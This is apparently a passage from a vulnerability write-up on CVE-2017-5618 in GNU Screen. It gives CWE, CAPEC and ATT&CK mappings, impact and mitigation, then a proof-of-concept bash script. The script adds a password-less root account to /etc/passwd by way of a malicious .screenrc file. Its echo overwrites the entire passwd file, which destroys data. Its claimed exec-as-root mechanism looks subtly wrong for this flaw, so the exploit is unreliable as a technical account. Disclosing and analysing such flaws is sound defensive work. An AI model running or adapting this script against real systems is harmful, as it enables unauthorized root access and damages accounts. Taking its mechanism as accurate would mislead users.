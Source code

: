 **CWE (Common Weakness Enumeration) Mapping:**
*   **CWE-280: Improper Handling of Insufficient Permissions or Privileges**
*   **CWE-272: Least Privilege Violation**

**CAPEC (Common Attack Pattern Enumeration and Classification) Mapping:**
*   **CAPEC-1: Accessing Functionality Not Properly Constrained by ACLs**

**ATT&CK (Adversarial Tactics, Techniques, and Procedures) Mappings:**
*   **Tactic:**
    *   **TA0004: Privilege Escalation**
*   **Techniques:**
    *   **T1068: Exploitation for Privilege Escalation**
    *   **T1222: File and Directory Permissions Modification**

### 3.2 Impact
The primary impact of this vulnerability is **privilege escalation**. A local attacker can exploit this flaw to gain root privileges on the affected system, leading to complete system compromise, including data manipulation, unauthorized access, and denial of service.

## 4. Mitigation Strategies

The core fix for CVE-2017-5618 involves a more robust privilege management strategy, ensuring that logfile operations are handled after privilege dropping or with appropriate checks, thereby preventing arbitrary file creation/overwrite by unprivileged users.

**Recommended Mitigation Strategies:**
*   **M1022: Restrict File and Directory Permissions:** Ensure that sensitive files and directories have appropriate permissions to prevent unauthorized modification.
*   **M1026: Privileged Account Management:** Implement strict controls over privileged accounts and processes, ensuring that applications drop privileges when not absolutely necessary.
*   **Upgrade GNU Screen:** The most effective mitigation is to upgrade GNU screen to version 4.5.1 or later, which contains the patch for this vulnerability.

## 5. Proof of Concept (PoC) and Exploitation Steps

### 5.1 Exploit PoC (CVE-2017-5618_exploit_PoC)
The following is the provided Proof-of-Concept (PoC) script that demonstrates the successful exploitation of CVE-2017-5618 to gain root privileges by adding a new root user to `/etc/passwd`.

```bash
#!/bin/bash

# Payload for the new root user
NEW_ROOT_USER="newroot::0:0:newroot:/root:/bin/bash"

# Create a script to add the root user
cat <<EOF > /tmp/add_root.sh
#!/bin/bash
echo -e "$NEW_ROOT_USER" > /etc/passwd
EOF
chmod +x /tmp/add_root.sh

echo "Created /tmp/add_root.sh"

# Create a malicious .screenrc file
cat <<EOF > /tmp/malicious_screenrc
logfile /dev/null
log on
# Execute our script with root privileges
exec /tmp/add_root.sh
EOF

echo "Created /tmp/malicious_screenrc"

```